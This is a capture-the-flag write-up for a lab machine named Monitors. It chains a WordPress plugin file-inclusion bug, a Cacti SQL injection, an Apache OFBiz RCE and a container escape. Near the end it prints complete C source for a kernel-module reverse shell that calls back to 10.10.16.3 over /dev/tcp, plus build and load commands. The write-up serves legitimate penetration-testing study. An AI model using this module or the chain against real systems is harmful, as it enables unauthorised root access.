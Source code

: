 # Monitors

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (166) (2).png" alt=""><figcaption></figcaption></figure>

We can add `monitors.htb` to our `/etc/hosts` file.

### Wordpress Site

Port 80 hosts a Wordpress site.

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

We can run `wpscan` to enumerate the plugins and version, and this finds that **wp-with-spritz** is being used.

<figure><img src="../../../.gitbook/assets/image (120) (2).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to RFI.

<figure><img src="../../../.gitbook/assets/image (150) (1).png" alt=""><figcaption></figcaption></figure>

We can confirm this by viewing the `/etc/passwd` file.

<figure><img src="../../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

After further enumeration, there's nothing else that I could find. So we probably need to read more files within this machine. I could not read any user files, so I tried to check some configuration files for the server at `/etc/apache2/sites-enabled/000-default.conf`.

<figure><img src="../../../.gitbook/assets/image (14) (2) (2).png" alt=""><figcaption></figcaption></figure>

We can find a new domain at `cacti-admin.monitors.htb`. Afterwards, I also read the Wordpress configuration files at `/var/www/wordpress/wp-config.php` to find a password.

<figure><img src="../../../.gitbook/assets/image (34) (2).png" alt=""><figcaption></figcaption></figure>

### Cacti&#x20;

Upon visting this separate domain, we are greeted by another login page:

<figure><img src="../../../.gitbook/assets/image (60) (3).png" alt=""><figcaption></figcaption></figure>

This version of Cacti is old and vulnerable to loads of exploits. We can login with the credentials for Wordpress. Afterwards, we can use an exploit that uses SQL injection to gain a reverse shell.

<figure><img src="../../../.gitbook/assets/image (125) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

We now have remote access as the user `marcus` and can capture the user flag.

## Privilege Escalation

### Docker Image

In the user's directory, we find a `note.txt` file that points towards a docker image being present.

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

I read the configuration files at `/etc/containerd`, and found that the `root` user was running the image.

<figure><img src="../../../.gitbook/assets/image (20) (1) (3).png" alt=""><figcaption></figcaption></figure>

We can check the open ports of this machine via `netstat -tulpn` to see other open ports.

<figure><img src="../../../.gitbook/assets/image (15) (1) (5).png" alt=""><figcaption></figcaption></figure>

Port 8443 was open and we could access it. The next step is port forwarding.

### OfBiz RCE

I used `ssh -L 8443:localhost:8443 marcus@monitors.htb` to port forward after dropping my public key in the `authorized_keys` folder. Then, I used `gobuster` to find hidden directories present:

<figure><img src="../../../.gitbook/assets/image (68) (3).png" alt=""><figcaption></figcaption></figure>

Visting any of these would redirect us to `/content/control/main`, where there is a login page present.

<figure><img src="../../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption></figcaption></figure>

The bottom of the page shows that this is running Apache OFBiz Release 17.12.01, which is vulnerable to loads of exploits, including an RCE one.

<figure><img src="../../../.gitbook/assets/image (61) (4).png" alt=""><figcaption></figcaption></figure>

We can follow the PoC here to execute it:

{% embed url="https://github.com/g33xter/CVE-2020-9496" %}

Then, we would gain a shell as root in the container.

<figure><img src="../../../.gitbook/assets/image (157) (4).png" alt=""><figcaption></figcaption></figure>

### Sys Module Exploit

There was nothing much within this machien that was interesting. I decided to check the capabilities of the container and found that `cap_sys_module` was enabled. This allows us to escape the container.

First we need to create a new Kernel module with some C code:

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.16.3/8888 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Then we need we need to create a `Makefile`:

```
obj-m +=reverse-shell.o

all:
        make -C /lib/modules/4.15.0-generic/build M=/root modules

clean:
        make -C /lib/modules/4.15.0-generic/build M=/root clean
```

Get them both into the root directory and start listening on a port. Afterwards, we can run `make` and `insmod reverse-shell.ko`. This would trigger the reverse shell, and give us a shell as `root`.

<figure><img src="../../../.gitbook/assets/image (32) (5).png" alt=""><figcaption></figcaption></figure>
